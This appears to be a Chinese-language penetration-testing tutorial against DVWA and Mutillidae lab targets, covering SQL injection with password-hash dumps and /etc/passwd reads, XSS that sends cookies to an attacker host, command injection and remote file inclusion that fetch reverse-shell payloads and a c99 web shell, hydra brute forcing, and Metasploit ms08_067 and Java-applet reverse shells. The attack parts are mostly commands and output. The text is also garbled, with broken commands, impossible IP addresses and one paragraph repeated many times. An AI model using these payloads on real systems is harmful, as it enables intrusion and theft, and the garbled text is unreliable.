|---|---|---|---|---|---|---|
| 19:03: | 0 ms | 0 ms | unkno... | GET | pending | http://... LOAD_ |
| 19:03: | 0 ms | 0 ms | unkno... | GET | pending | http://... LOAD_|


| Request Header | Request Header Value | Response Header | Response Header Value |
|---|---|---|---|
| Host | 192.168.1.4 | Status | OK-200 |
| User-Agent | Mozilla/5.0 (CT; Linux x86; rv... | Date | Sat, 17 Jun 2003 21:55:02 GMT |
| Accept | text/html,application/xml+tm... | Server | Apache/2.2.14 (Unix) DAV/2 mo |
| Accept-Language | en-US,en=0.5 | Expires | Tue, 23 Jun 2009 12:00:00 GMT |
| Accept-Encoding | gzip, deflate | Cache-Control | no-cache,must-revalidate |
| Referer | http://192.168.1.4/vulnerabilities... | Pragma | no-cache |
| Cookie | PHPSESSID=bodqea7g3fgepr... | Content-Length | 4388 |
| Connection | keep-alive | timeout=5,max=100 | |
| | | Content-Type | text/html;charset=8 |

- 获取网站的 `url`


- 进入应用程序、回溯、利用工具、Web 利用工具，输入 `sqlmap` 命令

```bash
# python sqlmap.py -u 'url' --cookie='cookie' --dbs
```

`http://pentest/database/sqlmap` `python sqlmap.py -u http://192.168.1.4/vulnerabilities/sql/?id=1&submit=Submit --cookie PHPSESSID=bodqea7g3fvoj5;security=low --db`

- 我们将获取所有的数据库


```
[19:05:01] [INFO] the back-end DBMS is MySQL
web application technology PHP 5.3.1, Apache 2.2.14
[19:05:01] [INFO] fetched database name
available databases:
* dwva
* information schema
* mysql
* phpmyadmin
* test
[19:05:01] [INFO] fetched data logged to text files under '/pentest/database/output/192.168.1.4/'
[19:05:01] shutting down at 19:05:01
```

- 修改命令以输入数据库名并显示该数据库中的用户

```
root:/pentest/database/sqlmap python sqlmap.py -u 'http://192.168.1.4/vulnerability/sql1/?id=165Submit--cookie PHPSESSID=bodqea7g3fge1f8pr4vo5'
ql: security=low -D dwva
```

- 修改命令以输入数据库名、表名并显示该数据库中的用户

```
root:/pentest/database/sqlmap python sqlmap.py -u 'http://192.168.1.4/vulnerability/sql1/?id=165Submit--cookie PHPSESSID=bodqea7g3fge1f8pr4vo5'
ql: security=low --T users column
```

- 输入命令以显示所有用户信息

```
| Column | Type |
| data | varchar(255) |
| name | varchar(32) |
| password | varchar(35) |
| user | varchar(15) |
| user_id | int(6) |
```

- 在 `http://192.168.52.134/dvwa/vulnerabilities/sqli/?id=2 union select first_name,password from dvwa.users --&Submit=Submit` 查看数据库 `DVWA` 中的用户

```
union select first_name,password from dvwa.users--
```

# 漏洞：SQL 注入

用户 ID：

`ID: 1 select first_name, password from dvwa.users--`

First name: admin

`ID: 2 select first_name, password from dvwa.users--`

First name: admin

Surname: `5f4dc3cb35aa765d61d8327deb882cf99`

`ID: 3 select first_name, password from dvwa.users--`

First name: Gordon

Surname: `e99a1842c8dec3b5df260853678922e03`

`ID: 4 select first_name, password from dvwa.users--`

First name: Helen

Surname: `8d3533d75aec2c396d67e04fcc69216b`

`ID: 5 select first_name, password from dvwa.users--`

First name: Bob

Surname: `8da069f75bbe40cade3de5c71e9e97`

`ID: 6 select first_name, password from dvwa.users--`

First name: Bob

Surname: `5f4dc3cb35aa765d61d8327deb882cf99`

## 通过 SQL 注入读取文件：


- 使用 `union select null` 来确定表的数量和表的列数。

- 进入 `multitaide`，然后进入 `injections, SQLi extract data, user info.` 写入：

`'union select null --`


- 你将得到错误信息

没有账户？请在此处注册

| Line | 126 |
| --- | --- |
| Code | 0 0 0 0 1 1 0 0 0 0 |
| File | /usr/share/multitaide/user-info.php |
| Message | Error executing query: The used SELECT statements have a different number of columns |
| Trace | #0 /usr/share/multitaide/index.php(469): include() #1 (main) |
| Diagnostic Information | SELECT FROM accounts WHERE username=... AND password=... |
| | 你是否设置/重置了数据库？ |

- 增加 `null` 的数量直到不再报错。在 5 个 `null` 之后我得到了答案

`'union select null, null, null, null--`

# 结果：找到 1 条记录。

- 要加载文件，将其中一个命令更改为 `load_file('/etc/passwd')`

# 请输入用户名和密码查看账户详情

| Name | ct null,load_file('/etc/passwd) |
| --- | --- |
| Password | 1 |


- 你可以在数据库中插入你想要的值

# 为匿名用户添加博客

注意：博客条目现在允许使用 `<b>`</b>`、`<i>`</i>`、`<u>`</u>` 和 `<u>`</u>`

```
TEXT: '2010-01-01 12:00:00'
```

## 理解盲注 SQL 注入：

盲注 SQL（结构化查询语言）注入是 SQL 注入的一种，通过询问数据库真假问题来确定答案。这种攻击通常用于 Web 应用配置为显示通用错误信息但未进行缓解的情况。当攻击者利用 SQL 注入时，Web 应用有时会显示 SQL 语法错误。盲注 SQL 注入与普通 SQL 注入几乎相同，区别在于从数据库检索数据。当数据库不将数据输出到 Web 页面时，攻击者通过向数据库提出一系列真或假问题来强制获取数据，这使得利用 SQL 注入变得困难。在盲注 SQL 注入中，我们将取决于错误信息。

- 在框中写入获取 `null` 的数量：

| User ID: |
| --- |
| ID: 1 union select null,-- |
| First name: admin |
| Surname: admin |
| ID: 1 union select null,-- |
| First name: |
| Surname: |

- 另一种技术是写入 `1 union select 1,2--`

- 加载文件：`1 union select, load_file(/etc/passwd)`

- 如果不起作用，提供十六进制格式的文件：`1 union select`

## 理解跨站脚本 (XSS)

跨站脚本攻击是一种注入问题，将恶意脚本注入到受信任的网站中。跨站脚本 (XSS) 发生在 Web 应用使用用户输入而未进行验证或编码时。攻击者可以使用 XSS 发送脚本，因为他们认为脚本来自信任源，恶意脚本可以访问 `cookie` 或敏感信息。这些脚本可以重写 HTML 页面的内容。- 原因是 Web 程序允许攻击者执行命令。如果攻击者编写了代码，那么应用程序存在 XSS 漏洞。

- 存在持久型 XSS 和反射型 XSS 攻击

## 持久型攻击（Persistent）

持久型攻击是将注入的代码永久存储在目标服务器上，例如数据库、论坛、评论字段等。当用户请求时，从服务器检索恶意脚本

## 反射型攻击（Reflected）

反射型攻击是指注入的代码从 Web 服务器反射，例如错误信息、搜索结果或任何包含发送到服务器输入的响应。反射型攻击通过另一种路由交付受害者，例如电子邮件，或者用户被骗点击恶意链接或提交特制的表单，注入的代码到达漏洞服务器并反射回用户的浏览器，因为它来自“信任”服务器。- 反射型 XSS 攻击通过注入 `URL` 进行，我们称之为。在持久型攻击中，它存储在数据库中并非常危险，因为任何人访问帖子，代码就会应用到他们的计算机。

## 反射型 XSS 威胁


- 要知道网站是否有 XSS 漏洞，在 `multide` 上测试。进行 `DNS` 查询。

- 要知道 Web 应用是否有 xss 漏洞，编写脚本：

`<script>alert(1)</script>` 你将得到 1

为了获取 `session id cookie`，我们写入：

`<script>alert(document.cookie)</script>`

- 将你重定向到其他网站

`<script>document.location="http://www.google.com"</script>`

- 我们可以直接使用链接


- 我们可以获取网站管理员的 `cookie`，然后 `cookie` 登录并获取管理员权限。我们将编写重定向到伪服务器的脚本帮助他们注入 `cookie`。在黑客计算机上，我们将运行一个可以查看请求的监听器

- 有 Web 可以编码：

```html
<script>document.location="http://192.168.1/index.php?document.cookie";</script>
Encoder script http://www.google.com/mercurial/encoder/
```

`%3Cscript%EDocument.location%3D%27http%3A%2F%2F192.168.1.7%2FIndex.php%3F%27Document.cookie%3B%3C%2Fscript%3E%8A`

```
http://192.168.1.3/vulnerabilities/xss/r/?name=%3Cscript%3Elocation%3D%27http%3A%2F%2F192.168.1.7%2FIndex.php%3F%27Document.cookie%3B%3C%2Fscript%3E%8A
```

- 我们制作监听器

- 管理员将打开你通过电子邮件发送的链接

`http://192.168.1.3/vulnerabilities/xs/?r=%3Cscript%3Edocument.location%3D%27http%3A%2F%2F192.168.1.7%2FIndex.php%3F%27Document.cookie%3B%2Fscript%3E%0A`

- 黑客将在 80 端口监听。他从管理员的 `cookie` 中获取管理员 `session id`

```
root@bt:~# nc -lvp 80
listening on [any] 80 ...
out
192.168.1.6 inverse host failed: Unknown server error : Connection timed
connect to [192.168.1.7] (from (UNKNOWN)) [3433]
GET /index.php?PHPSESSID=9b7r8id90cu9as2c341nt2&security=low HTTP/1.1
Host: 192.168.1.7
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:22.0) Gecko/20100101 Firefox/22.0
Accept: text/html,application/xhtml+xml,application/**;q=0.9
Accept-Language: en-US,en;q=0.8
Accept-Encoding: gzip, deflate
-
Referer: http://192.168.1.3/vulnerabilities/xs/?r=%3Cscript%3Edocument.location%3D%27http%3A%2F%2F192.168.1.7%2FIndex.php%3F%27Document.cookie%3B%2Fscript%3E%0A
Connection: keep-alive

```

- 黑客将浏览应用程序网站。他将使用 `temper` 将 `session id` 更改为黑客的 `session id`


## p). 使用 Metasploit 的持久性 XSS 威胁

`Armitage`

启动 `browser_autopwn` 模块 `<script>document.location='http://192.168.168/'</script>`

- `browser autopwn` 会使 Web 服务器活跃并对其进行浏览，它会针对浏览器应用所有漏洞，并在浏览器中浏览的任何漏洞都将获得对 Web 服务器的访问权限并与黑客机器建立反向连接。

- 回溯并操作机器。设置 `LHost` 为黑客机器 `IP`，`SRVport` 为 `80`，`URIpath` 为 `/`


- 安装修复程序以调整浏览器元素的设置，使其能够抵抗脚本攻击。


- 当访问留言板时，它将被重定向到黑客电脑。


- 你可以使用 `autopwn` 模块的插入功能来操作 `java_signed_applet`。在 `LHOST` 中设置黑客电脑 IP 和任意端口，并决定 `payload` 类型为 `java/meterpreter/reverse_tcp`。`SRVHOST` 与我们相同，`SRPort` 为 `80`，`URI path` 为 `/`


- 任何人浏览该链接都将向其/她发送 `java/meterpreter/reverse_tcp` payload。

- 当客户端访问留言板时，它将被重定向到黑客电脑并下载 `payload`。

## 理解命令执行漏洞

渗透测试员在 Web 渗透中遇到的最关键漏洞之一是找到一个允许其执行系统命令的应用程序。该漏洞的评级很高，因为它可以允许任何未经授权的恶意用户从 Web 应用程序向系统执行命令，从而收集大量信息或攻破目标主机。在本文中，我们将通过使用 `Damn Vulnerable Web Application (DVWA)` 来演示如何利用此漏洞。


或使用 `ls` (`Unix`) 或 `dir` (`Windows`)

- 我们可以通过受感染的 `URL` 获取命令，`Unix` 和 `Windows` 中的某些命令除外。我们可以上传 `payload` 并通过该 `payload` 攻击服务器。

- 你可以浏览 `Web` 服务器。

- 你可以在 `Web` 服务器中上传 `payload`。我们将使用 `msfvenom`。`Msfvenom` 是 `msfpayload` 和 `msfencode` 的组合。

`msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.7 lport=5555 -f raw > /root/test.php`

```
root@:
root@ # msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.7 lport=5555 -f raw > /root/desktop/test.php
root@ # cd Desktop/
```

- 移除 `php` 文件中的哈希值。

- 我们必须将 `payload` 复制到 `Web` 服务器中，但它必须是文本文件。

`cp /root/test.txt /var/www/test.txt`

- 我们将在网站上应用命令，通过 `wget` 命令上传 `payload`

```
wget http://192.168.1.7/test.txt -O /tmp/test.php ; php -f /tmp/test.php
```

`wget http://192.168.52.137/test.txt -O /tmp/test.php ; php -f /tmp/test.php`

### 漏洞：命令执行


- 准备多句处理器 (`multi handler`)。

```msf
### msfvenom
### use exploit/multi/handler
### set lhost (黑客 ip)
# set lport (我们为 payload 设置的端口)
### exploit
```

## 伦理黑客

```
meterpreter > exit
+] Shutting down Meterpreter...
[*] Meterpreter session 2 closed. Reason: Died
sf exploit(handler) >
sf exploit(handler) > exploit
[*] Started reverse handler on 192.168.1.7:55555
[*] Starting the payload ...
[*] Sending stage (38553 bytes) to 192.168.1.3
[*] Meterpreter session 3 opened (192.168.1.7:55555) -> 192.168.1.3:40582) at 201-08-05 22:17:28 -0000
meterpreter >
```

`SQL` 注入（盲注）`http://www.ss64.com/nt/`

- 确保在你想要攻击的 `Web` 服务器上安装了 `php`。


## 暴力破解漏洞

在此类攻击中，攻击者试图在对安全机制了解极少的情况下绕过它们。使用一种或多种方法：字典攻击（带变体）、暴力破解攻击（带有给定的字符，例如：字母、数字、特殊字符），攻击者试图实现其目标。考虑到给定的方法和尝试次数，攻击者能够计算攻击将持续多久。另一方面，暴力破解攻击包含了所有字符类，主要用于猜测密码。然而，有很多工具使用这种技术来检查 `Web` 服务结构并通过 `GET/POST` 表单获取用户名和密码来访问网站。在 `GET` 和 `POST` 请求后，我们有很多工具可以进行暴力破解。

- 输入用户名和密码。

- 获取 `Header` 信息。

```http
GET http://192.168.1.2/vulnerabilities/brute/?username=user&password=user&Login=Login HTTP/1.1
Host: 192.168.1.2
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:22.0) Gecko/201010 Firefox/22.0
Accept: text/html,application/xml,application/xml,*q=0.9,*q=0.8
Accept-Language: en-US,q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.1.2/vulnerabilities/brute/
Cookie: PHPSESSID=...security=high
Connection: keep-alive

HTTP/1.1 200 OK
Date: Wed, 14 Aug 2013 23:24:45 GMT
Server: Apache/2.2.14 (Windows) mod_ssl/2.2.14 OpenSSL/0.9.8 PHP/5.3.1
X-Powered-By: PHP/5.3.1
Expires: 23 Jun 2009 12:00:00
Cache-Control: no-cache, must-revalidate
```

- 在暴力破解中填写信息。

## Web 表单


- 选择暴力破解。


- 使用 `burp suite` 尝试 `mullitidae` 网站。将 `firefox` 中的代理设置为 `IP` 地址 `127.0.0.1` 和端口 `80`。这很难使用。

- 你可以使用 `hydra` 工具

## 暴力破解攻击

- 使用暴力破解工具

- 使用 `burpsuite` 工具

`hydra -l admin -P /root/Desktop/pass.txt 192.168.1.6 http-post-form /multillidae/index.php?page=login.php?username=USER&password=PASS&login-php-submit-button=Login Not Logged In`

- `username`

- 字典文件

- 目标主机，可以通过域名更改

- `http-post-form` -> 服务模块

- `/multillidae/index.php?page=login.php` -> 路径

- `username` -> 输入表单

- `password` -> 输入表单

- `login-php-submit-button` -> 提交按钮处的表单

- 应用程序登录失败（`Not Logged In`）时的错误消息


```
root@bt:~# 
File Edit View Terminal Help
root@bt:~# hydra -l admin -P /root/Desktop/pass.txt 192.168.1.6 http-post-form /multillidae/index.php?page=login.php?username=USER&password=PASS&login-php-submit-button=Login:Not Logged In
Hydra v7.3 (c)2012) by van Hauser & David Maciejak - 仅用于法律目的
Hydra (http://www.thc.org/thc-hydra) starting at 2013-08-14 20:27:56
[DATA] 10 tasks, 1 server, 10 try per task
[DATA] attacking service http-post-form on 80
[STATUS] finished for 192.168.1.6 (waiting for children)
[80] host: 192.168.1.6 login: admin password: admin
of 1 target completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2013-08-14 20:28:10
root@bt:~#
```

### q) 本地文件包含 (LFI):

- 理解文件包含漏洞

- 本地文件包含 (`LFI`)

- 本地文件包含意味着在 `php` 页面上加载 `/etc/passwd`、`etc/host` 等本地文件。出现此漏洞有许多编程错误。当程序员在 `php` 页面上放置某些错误内容时，就会产生此漏洞

- 远程文件包含 (`RFI`)

- 远程文件包含 (`RFI`) 是一种常见于网站的漏洞。它允许攻击者通过 `Web` 服务器上的脚本包含远程文件。该漏洞由于对用户输入未进行适当验证。这会导致输出文件的内容。

- 在本地文件包含中，如果 `Web` 存在本地文件包含漏洞，可以通过该漏洞读取 `Web` 服务器内部的文件，如 `/etc/passwd`。

- 在 `DVWA` 中，进入文件包含。

```
192.168.1.2/vulnerabilities/lfi/?page=include.php
```

- 修改为你想要下载的文件 `/etc/passwd`

```
192.168.1.2/vulnerabilities/lfi/?page=/etc/passwd
```

- 我们可以下载的最重要文件

- 在 `Windows` 机器上使用其他命令

`Page=../../../boot.ini`

### r) 远程文件包含 (RFI):

- 当应用程序存在此漏洞时，我们可以在该网站内部放置另一个页面。这个网页被称为 `web shell`（`Web` 后门）。

- 理解 `web shell`


- `shell` 可以用任何编程语言编写，大部分使用 `php`。通过远程包含，我们可以获得 `Web` 服务器的访问权限并在上面部署 `shell`。有些 `shell` 如 `C99.php`、`R57.php`、`C100.php`。

- `C99 shell`


- `R57`

同时选择

查找文件

执行

在...中查找

查找

在文件 `C:\compile\shell\` 中

`C:\inet\home\`

仅限

`log.php`

`// eval script();`

`// ushell("shell.php");`

`// readfile("/etc/passwd");`

执行 `PHP` 代码

执行

在服务器上上传文件 ::

本地文件名

未选择文件。

上传

远程文件名

从服务器下载文件 ::

`C:\compile\shell\`

下载

身份验证

无需身份验证

`ftp`

`FTP`

从远程 `ftp` 服务器下载文件

`FTP` 服务器: `127.0.0.1:`

将文件发送到远程 `ftp` 服务器

用户名

`anonymous`

密码

`bob@microsoft.com`

服务器上的文件:


结果位于：

- 将 `shell` 放入 `/var/www` 文件夹中。将 `shell` 作为文本文件存放在黑客电脑上。启动 `apache` 服务。

- 访问 `multilitidae` 网站。


- 将 `home.php` 修改为黑客电脑的 `shell` 地址 `http://192.168.52.134/c99.txt`

## # c99Shell v.1.0 pre-release build #16!

```
Server Apache/2.4.41 (Ubuntu)
- Ubuntu Linux 5.4.0-42-generic #42-Ubuntu SMP (Jul 2 20:48:33 UTC 2020)
- PHP/7.4.3-fpm
- OpenSSL/1.1.1d-10 Mar 2020
10:13:10 UTC 2020
```

由黑客所有

- 在 `dvwa` 中尝试，然后我们放入 `shell` 地址

`http://192.168.52.134/dvwa/vulnerabilities/fi/?page=include.php`

`http://192.168.52.134/dvwa/multilithard/fi/?page=http://192.168.52.137/c99.php`

`http://192.168.52.134/multilithard/page=http://192.168.52.137/c99.php ?`

## # c99Shell v.1.0 pre-release build #16!

```
Server Apache/2.4.41 (Ubuntu)
- Ubuntu Linux 5.4.0-42-generic #42-Ubuntu SMP (Jul 2 20:48:33 UTC 2020)
- PHP/7.4.3-fpm
- OpenSSL/1.1.1d-10 Mar 2020
10:13:10 UTC 2020
```

由黑客所有

- 我们可以在 `Web` 服务器上创建 `payload` 并将其上传


- 在黑客电脑上创建 `php/meterpreter/reverse_tcp` `payload`

```
root@bt:~ File Edit Help
root@bt:~ # msfpayload/meterpreter/reverse_tcp LHOST=192.168.1.6 LPORT=5555 -t shell.php
```

- 打开文件并删除 `php` 文件中的 `hash`

- 进入黑客电脑的 `/var/www` 并将其放置。启动 `apache` 服务。

- 在同一 `handler` 中开启 `handler`

```
msf > exploit/multi/handler
msf exploit(handler) > set PAYLOAD file:/root/shell.php
[-] The value specified for PAYLOAD is valid
msf exploit(handler) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.6
LHOST => 192.168.1.6
msf exploit(handler) > set LPORT 5555
LPORT => 5555
msf exploit(handler) > exploit
```


使用浏览器将 `payload` 上传到 `Web` 服务器。


- 将打开 `meterpreter session`


```
msf > exploit/multi/handler
msf exploit(handler) > set PAYLOAD file:/root/shell.php
[-] The value specified for PAYLOAD is valid.
msf exploit(handler) > set PAYLOAD php/meterpreter/reverse_tcp
PAYLOAD => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.6
LHOST => 192.168.1.6
msf exploit(handler) > set LPORT 5555
LPORT => 5555
msf exploit(handler) > exploit
[*] Started reverse handler on 192.168.1.6:5555
[*] Starting payload handler...
[*] Sending stage (38553 bytes) to 192.168.1.6
[*] Meterpreter session 1 opened (192.168.1.6:5555) -> 192.168.1.6-08-15 20:04:16 -400
meterpreter >
```

## 文件上传漏洞

上传的文件对应用程序构成了重大风险。许多攻击的第一步是将代码放入系统。然后攻击需要找到执行代码的方法。使用文件上传可以帮助攻击者完成第一步。

无限制文件上传的后果多种，包括完全接管系统、文件系统负载、后端攻击以及简单的破坏。这取决于应用程序如何处理上传的文件，包括存储位置。


- 这意味着网站允许上传图像或脚本等文件。我们可以上传 shell 并使其可执行，从而控制 Web 服务器。我们可以制作 reverse tcp payload 并将其上传到 Web 服务器中。

- 进入 DVWA 并将级别设置为低。进入文件上传并上传 shell。

### 漏洞：文件上传


- 浏览 shell


## 192.168.1.10 SSH-2.0-OpenSSH_8.2p1

BackTrack Offensive Exploit-DB Source

Linux 5.4.0-26-generic #x86_64 Thu Aug 19 09:12:52 UTC 2020 (exploit-db.com)

user: 65534 (nobody) group: 65534 (nobody)

idle: 5.1s since login | 上次登录: 2023-03-17 13:27:49

wd: /opt/rackf/files/hacks/exploit.php

| 名称 | 大小 | 所有者/组 | 权限 | 动作 |
| --- | --- | --- | --- | --- |
| [DIR] | | 2023-03-18 17:27:36 | nobody/nogroup | rwxr-xr-x | |
| [DIR] | | 2023-03-18 21:45:26 | nobody/nogroup | rwxr-xr-x | |
| [DIR] | | 2023-03-18 17:27:30 | nobody/nogroup | rwxr-xr-x | |
| `click_email.php` | 467 B | 2023-03-18 21:45 | nobody/nogroup | r--r--r-- | |
| `shell.php` | 64.9 KB | 2023-03-18 17:27 | nobody/nogroup | r--r--r-- | |
| `exploit.php` | 64.9 KB | 2023-03-18 17:27 | nobody/nogroup | r--r--r-- | |

- 使用 reverse tcp payload。删除 `php` 文件中的 hash

- 进入黑客电脑的 `/var/www` 并将其放置。启动 `apache` 服务。

-


木马程序将创建一个服务器，可以安装在我们想要黑入的客户端计算机上。反向连接将让客户端计算机上的服务器连接到木马程序。

## b) 通过 ms08_067 netapi32 攻击 Windows


- 攻击 Windows XP SP3 的步骤


- 使用命令 `nmap -A` 扫描子网以寻找 Windows 机器

```bash
nmap -A 192.168.1.0/24
```

Msfconsole

使用 `exploit/windows/smb/ms08_067_netapi`

设置 `RHOST` `192.168.52.132` (另一个带有该漏洞的 Win XP 机器)

`Exploit`

```
msf exploit/windows/smb/ms08_067_metapi
msf exploit(ms08_067 metapi) > set RHOST 192.168.1.6
RHOST => 192.168.1.6
msf exploit(ms08_067 metapi) > exploit

[*] Started reverse handler on 192.168.1.3:4444
[*] 正在检测目标...
[*] Fingerprint: Windows XP Service Pack 3 (English)
[*] Selected Target: Windows XP SP3 (ENGLISH)
[*] 正在触发漏洞...
[*] 正在发送 stage (2972128 bytes) to 192.168.1.6
[*] Metpreter session 1 opened (192.168.1.3:4444) -> 192.168.1.6:14903
08-24 18:37:00 -0400
```

- 然后你可以在会话中工作任何命令。

- 部分命令：`ls`, `sysinfo`, `hashdump`, `screenshot`, `ipconfig`, `shell`

- 当进入 `shell` 时可以使用以下命令：`net`, `ipconfig/all`, `tasklist`, `net user`, `net share`, `netstat -an`


- 你可以使用此在计算机上运行 payload

```bash
msf exploit(ms08_067_metapi) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(ms08_067_metapi) > set LHOST 192.168.1.3
LHOST => 192.168.1.3
msf exploit(ms08_067_metapi) > set LPORT 4444
LPORT => 4444
msf exploit(ms08_067_metapi) > set RHOST 192.168.1.10
RHOST => 192.168.1.10
msf exploit(ms08_067_metapi) > exploit

[*] Started reverse handler on 192.168.1.3:4444
[*] 正在检测目标...
[*] Fingerprint: Windows XP Service Pack 3 (English)
[*] Selected Target: Windows XP SP3 (ENGLISH)
[*] 正在触发漏洞...
[*] 正在发送 stage (2972128 bytes) to 192.168.1.3
[*] Metpreter session 1 opened (192.168.1.3:4444) -> 192.168.1.10:10441 at 2013
08-25 14:20:32 -0400
```

## Msfconsole

使用 `exploit/windows/smb/ms08_067_metapi`

设置 `PAYLOAD` `windows/meterpreter/reverse_tcp`

设置 `LHOST` `192.168.1.535`

设置 `LPORT` `4444`

设置 `RHOST` `192.168.1.532` (另一个带有漏洞的 Win XP 机器)

`Exploit`

此模块利用 RPCSS 服务中的栈溢出，该漏洞最初由 Last Stage of Delirium 研究小组发现，此后被广泛利用。该模块可以在一次请求中利用 Windows NT 4.0 SP3-6a、Windows 2000、Windows XP 和 Windows 2003：

- 你也可以使用 armitage


## 客户端攻击：通过 Java Applet 攻击 Windows

此漏洞通过 `exploit: java` 创建一个 `jar` 文件，然后对其进行签名。生成的签名 applet 通过网页呈现给受害者。在旧版本中，受害者的 `JVM` 将显示对话框，询问他们是否信任该签名 applet。较新版本在签名不受信任时会在“发布者”行显示警告（即未受信任的 CA 签名）。`SigningCert` 选项允许你提供受信任的代码签名证书，该值将被覆盖。如果没有提供 `SigningCert`，将使用随机生成的自签名证书。无论如何，一旦用户点击“运行”，漏洞将以全权限执行。


- 这是一个客户端攻击。当黑客在 `metasploit` 中使用 `java signed applet` 模块时，它将作为服务器，并有一个带有 `java` 反向 payload 的网站。它要求客户端拥有 `java` 应用程序以执行 `java` payload。任何访问网站的人都会下载并安装 payload，黑客就可以控制该计算机。它可以攻击任何带有 `java` 应用程序的机器。

- 你设置 `LHOST` 和 `RHOST` 黑客 ip 地址。`LPORT` 可以是任何端口，`RPORT` 放 8080 或 80 或任何端口。使用 `URI` 部分。


## 客户端攻击：通过 Java Applet 攻击 Windows（带有 DNS 欺骗的 HTTP shell）


- 我们通过 `exploit: java` 创建一个 `jar` 文件，然后对其进行签名。生成的签名 applet 通过网页呈现给受害者。在旧版本中，受害者的 `JVM` 将显示对话框，询问他们是否信任该签名 applet。较新版本在签名不受信任时（即未受受信任的 CA 签名）会在“发布者”行显示警告。`SigningCert` 选项允许你提供受信任的代码签名证书，该值将被覆盖。如果没有提供 `SigningCert`，将使用随机生成的自签名证书。无论如何，一旦用户点击“运行”，漏洞将以全权限执行。

- 这是一个客户端攻击。当黑客在 `metasploit` 中使用 `java signed applet` 模块时，它将作为服务器，并有一个带有 `java` 反向 payload 的网站。它要求客户端拥有 `java` 应用程序以执行 `java` payload。任何访问网站的人都会下载并安装 payload，黑客就可以控制该计算机。它可以攻击任何带有 `java` 应用程序的机器。

- 你设置 `LHOST` 和 `RHOST` 黑客 ip 地址。`LPORT` 可以是任何端口，`RPORT` 放 8080 或 80 或任何其他端口。使用 `URI` 部分。

- 我们通过 `exploit: java` 创建一个 `jar` 文件，然后对其进行签名。生成的签名 applet 通过网页呈现给受害者。在旧版本中，受害者的 `JVM` 将显示对话框，询问他们是否信任该签名 applet。较新版本在签名不受信任时（即未受受信任的 CA 签名）会在“发布者”行显示警告。`SigningCert` 选项允许你提供受信任的代码签名证书，该值将被覆盖。如果没有提供 `SigningCert`，将使用随机生成的自签名证书。无论如何，一旦用户点击“运行”，漏洞将以全权限执行。

- 这是一个客户端攻击。当黑客在 `metasploit` 中使用 `java signed applet` 模块时，它将作为服务器，并有一个带有 `java` 反向 payload 的网站。它要求客户端拥有 `java` 应用程序以执行 `java` payload。任何访问网站的人都会下载并安装 payload，黑客就可以控制该计算机。它可以攻击任何带有 `java` 应用程序的机器。

- 你设置 `LHOST` 和 `RHOST` 黑客 ip 地址。`LPORT` 可以是任何端口，`RPORT` 放 8080 或 80 或任何其他端口。使用 `URI` 部分。

- 我们通过 `exploit: java` 创建一个 `jar` 文件，然后对其进行签名。生成的签名 applet 通过网页呈现给受害者。在旧版本中，受害者的 `JVM` 将显示对话框，询问他们是否信任该签名 applet。较新版本在签名不受信任时（即未受受信任的 CA 签名）会在“发布者”行显示警告。`SigningCert` 选项允许你提供受信任的代码签名证书，该值将被覆盖。如果没有提供 `SigningCert`，将使用随机生成的自签名证书。无论如何，一旦用户点击“运行”，漏洞将以全权限执行。

- 这是一个客户端攻击。当黑客在 `metasploit` 中使用 `java signed applet` 模块时，它将作为服务器，并有一个带有 `java` 反向 payload 的网站。它要求客户端拥有 `java` 应用程序以执行 `java` payload。任何访问网站的人都会下载并安装 payload，黑客就可以控制该计算机。它可以攻击任何带有 `java` 应用程序的机器。

- 你设置 `LHOST` 和 `RHOST` 黑客 ip 地址。`LPORT` 可以是任何端口，`RPORT` 放 8080 或 80 或任何其他端口。使用 `URI` 部分。

- 我们通过 `exploit: java` 创建一个 `jar` 文件，然后对其进行签名。生成的签名 applet 通过网页呈现给受害者。在旧版本中，受害者的 `JVM` 将显示对话框，询问他们是否信任该签名 applet。较新版本在签名不受信任时（即未受受信任的 CA 签名）会在“发布者”行显示警告。`SigningCert` 选项允许你提供受信任的代码签名证书，该值将被覆盖。如果没有提供 `SigningCert`，将使用随机生成的自签名证书。无论如何，一旦用户点击“运行”，漏洞将以全权限执行。

- 这是一个客户端攻击。当黑客在 `metasploit` 中使用 `java signed applet` 模块时，它将作为服务器，并有一个带有 `java` 反向 payload 的网站。它要求客户端拥有 `java` 应用程序以执行 `java` payload。任何访问网站的人都会下载并安装 payload，黑客就可以控制该计算机。它可以攻击任何带有 `java` 应用程序的机器。

- 你设置 `LHOST` 和 `RHOST` 黑客 ip 地址。`LPORT` 可以是任何端口，`RPORT` 放 8080 或 80 或任何其他端口。使用 `URI` 部分。

- 我们通过 `exploit: java` 创建一个 `jar` 文件，然后对其进行签名。生成的签名 applet 通过网页呈现给受害者。在旧版本中，受害者的 `JVM` 将显示对话框，询问他们是否信任该签名 applet。较新版本在签名不受信任时（即未受受信任的 CA 签名）会在“发布者”行显示警告。`SigningCert` 选项允许你提供受信任的代码签名证书，该值将被覆盖。如果没有提供 `SigningCert`，将使用随机生成的自签名证书。无论如何，一旦用户点击“运行”，漏洞将以全权限执行。

- 这是一个客户端攻击。当黑客在 `metasploit` 中使用 `java signed applet` 模块时，它将作为服务器，并有一个带有 `java` 反向 payload 的网站。它要求客户端拥有 `java` 应用程序以执行 `java` payload。任何访问网站的人都会下载并安装 payload，黑客就可以控制该计算机。它可以攻击任何带有 `java` 应用程序的机器。

- 你设置 `LHOST` 和 `RHOST` 黑客 ip 地址。`LPORT` 可以是任何端口，`RPORT` 放 8080 或 80 或任何其他端口。使用 `URI` 部分。

- 我们通过 `exploit: java` 创建一个 `jar` 文件，然后对其进行签名。生成的签名 applet 通过网页呈现给受害者。在旧版本中，受害者的 `JVM` 将显示对话框，询问他们是否信任该签名 applet。较新版本在签名不受信任时（即未受受信任的 CA 签名）会在“发布者”行显示警告。`SigningCert` 选项允许你提供受信任的代码签名证书，该值将被覆盖。如果没有提供 `SigningCert`，将使用随机生成的自签名证书。无论如何，一旦用户点击“运行”，漏洞将以全权限执行。

